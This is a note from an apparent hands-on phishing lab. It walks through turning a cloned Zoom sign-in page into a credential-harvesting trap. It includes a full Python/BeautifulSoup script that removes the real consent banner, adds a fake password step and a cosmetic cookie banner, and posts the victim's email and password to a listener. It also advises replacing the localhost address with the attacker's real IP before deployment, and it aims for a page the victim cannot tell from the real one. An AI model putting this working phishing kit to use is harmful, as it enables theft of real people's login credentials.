

---
tags:
  - phishing
  - credential-harvesting
  - website-cloning
  - hands-on-lab
  - phase/initial-access
---

# Cleaning up the clone

> [!tip] Quick Reference
> | Problem | Fix |
> |---------|-----|
> | Broken OneTrust cookie banner | Remove it, inject a cosmetic replica that just hides itself on click |
> | "Next" button does nothing | Add `onclick="goToPassword()"` to show a custom password overlay |
> | No password field | Inject an overlay div mimicking Zoom's real 2-step (email → password) flow |
> | No way to capture input | Point the password form's `action` at an attacker-controlled listener |

## Visual Flow



## Step 1 — Find the button to target

```bash
grep -oP '.{0,100}Next</span>' signin.html
```
Reveals the button's id: `signin_btn_next`.

## Step 2 — Start from a clean copy

```bash
rm ~/ZoomSignin/signin.html
single-file "https://zoom.us/signin" ~/ZoomSignin/signin.html --browser-executable-path /usr/bin/chromium
```

## Step 3 — The modification script

A single Python pass (using BeautifulSoup) fixes everything at once:

```python
import re
from bs4 import BeautifulSoup

with open('signin.html','r') as f:
    html = f.read()

# Remove OneTrust cookie/consent elements safely by ID
soup = BeautifulSoup(html, "html.parser")

for elem_id in [
    "onetrust-consent-sdk",
    "onetrust-banner-sdk",
    "onetrust-pc-sdk",
    "ot-sdk-btn-floating",
    "ot-cookie-notice",
]:
    elem = soup.find(id=elem_id)
    if elem:
        elem.decompose()

html = str(soup)

# Make the Next button call our function
html = html.replace(
    'id="signin_btn_next"',
    'id="signin_btn_next" onclick="goToPassword()"'
)

# Add Enter key support on email field
html = html.replace(
    'id="email" maxlength="128"',
    'id="email" maxlength="128" onkeydown="if(event.key===\'Enter\'){event.preventDefault();goToPassword();}"'
)

extras = """
<div id="pw-overlay" style="display:none;position:fixed;top:120px;left:0;right:0;bottom:0;background:linear-gradient(to right,transparent 0% 46%,#fff 46% 100%);z-index:9997;font-family:Lato,Helvetica Neue,Helvetica,Arial,sans-serif">
<div style="max-width:420px;margin:80px auto;margin-left:calc(46% + (54% - 420px) / 2);padding:0 24px">
<h1 style="font-size:32px;font-weight:700;color:#222325;text-align:center;margin-bottom:8px">Enter your password</h1>
<p style="text-align:center;color:#686f79;font-size:14px;margin-bottom:32px">Welcome, <span id="show-email"></span>&nbsp;&nbsp;<a href="#" onclick="document.getElementById('pw-overlay').style.display='none';return false" style="color:#0d6bde;text-decoration:none">Change</a></p>
<form action="http://127.0.0.1:8080/creds" method="POST">
<input type="hidden" id="hidden-email" name="email">
<div style="margin-bottom:20px"><input id="pw-input" type="password" name="password" placeholder="Password" style="padding:14px;border:1px solid #C1C6CE;border-radius:8px;width:100%;font-size:16px;box-sizing:border-box;outline:none"></div>
<div style="display:flex;justify-content:space-between;align-items:center;margin-bottom:20px"><label style="display:flex;align-items:center;gap:8px;font-size:14px;color:#222325;cursor:pointer"><input type="checkbox" checked style="width:18px;height:18px;accent-color:#0d6bde"> Stay signed in</label><a href="#" style="color:#0d6bde;text-decoration:none;font-size:14px">Forgot password</a></div>
<button type="submit" style="width:100%;padding:14px;background:#0d6bde;color:#fff;border:none;border-radius:8px;font-size:16px;font-weight:600;cursor:pointer">Sign in</button>
</form>
</div>
</div>

<script>
function goToPassword(){
var e=document.getElementById('email').value;
if(!e){return;}
document.getElementById('show-email').textContent=e;
document.getElementById('hidden-email').value=e;
document.getElementById('pw-overlay').style.display='block';
document.getElementById('pw-input').focus();
}
</script>

<div id="ot-cookie-notice" style="position:fixed;bottom:0;left:50%;transform:translateX(-50%);max-width:760px;width:90%;background:#f6f6f6;border-top:1px solid #ddd;padding:20px 32px;z-index:99999;font-family:Lato,Helvetica Neue,Helvetica,Arial,sans-serif;font-size:14px;color:#696969;display:flex;align-items:center;gap:32px;letter-spacing:0.2px;line-height:1.6"><p style="margin:0;flex:1">Zoom uses cookies and similar technologies as described in our <a href="#" style="color:#0d6bde;text-decoration:underline">cookie statement</a>. You can manage your cookie settings or exercise your rights related to cookies through our Cookies Settings.</p><button onclick="document.getElementById('ot-cookie-notice').style.display='none'" style="background:none;border:1px solid #0d6bde;color:#0d6bde;padding:10px 24px;border-radius:4px;cursor:pointer;font-size:14px;white-space:nowrap;font-family:inherit">Cookies Settings</button><button onclick="document.getElementById('ot-cookie-notice').style.display='none'" style="position:absolute;top:10px;right:14px;background:none;border:none;font-size:20px;cursor:pointer;color:#696969">&times;</button></div>
"""

html = html + extras

with open('signin.html','w') as f:
    f.write(html)
print('Done')
```

## What it actually does

1. **Removes the broken OneTrust elements** by ID — the real cookie banner depends on JavaScript that doesn't function in a static clone, so it has to go.
2. **Wires the Next button** to a new `goToPassword()` function via `onclick`.
3. **Adds Enter-key support** on the email field so it behaves like a real form, not just a button-click trap.
4. **Injects a password overlay** styled to cover only the *right side* of the page — the Zoom header and sidebar image stay visible underneath, exactly like the real 2-step flow. The overlay shows the email just entered, a password field, a "Stay signed in" checkbox, and a submit button whose form `action` points at an attacker-controlled listener.
5. **Injects a cosmetic replacement cookie banner** — it doesn't need to actually manage cookie preferences, it just needs to *look* like it does. Clicking either button simply hides it.

> [!example] Result
> Reloading the page now shows a fully convincing flow: the cookie banner appears and dismisses correctly, and entering an email and clicking Next transitions smoothly into a password step — header and sidebar image still visible underneath, exactly matching the real Zoom experience.

> [!success] What a finished clone looks like
> Indistinguishable from the original at every interactive step — no broken buttons, no dead links, no visible errors. The victim should have zero visual reason to suspect anything.

> [!danger] Common pitfalls
> - Leaving the OneTrust elements in place — a banner that visibly does nothing is a tell.
> - Skipping the empty-email guard (`if(!e){return;}`) — without it, blank submissions would still show the password step, a small but noticeable logic gap.
> - Hardcoding `127.0.0.1` in the form `action` — fine for local testing, but this must be changed to the attacker's real reachable IP before deployment (see [[Capturing credentials]]).

> [!tip] Beginner note
> This pattern generalizes to almost any cloned site: identify what's broken (usually anything requiring the original backend or third-party JS), then script in a **fake but convincing replacement** using BeautifulSoup/regex — it doesn't need to actually work like the real thing, it just needs to look and feel like it does while quietly forwarding data to the attacker.

## Resources
- [BeautifulSoup docs](https://www.crummy.com/software/BeautifulSoup/bs4/doc/)

---
%% graph-links %%
## Related
- [[Cloning a legitimate website]]
- [[Capturing credentials]]
- [[Crafting the phishing email]]

> [!info] Navigation
> Section: [[Phishing Basics/Hands-on credential phishing/_index|Hands-on credential phishing]] · Home: [[🏠 Home]]
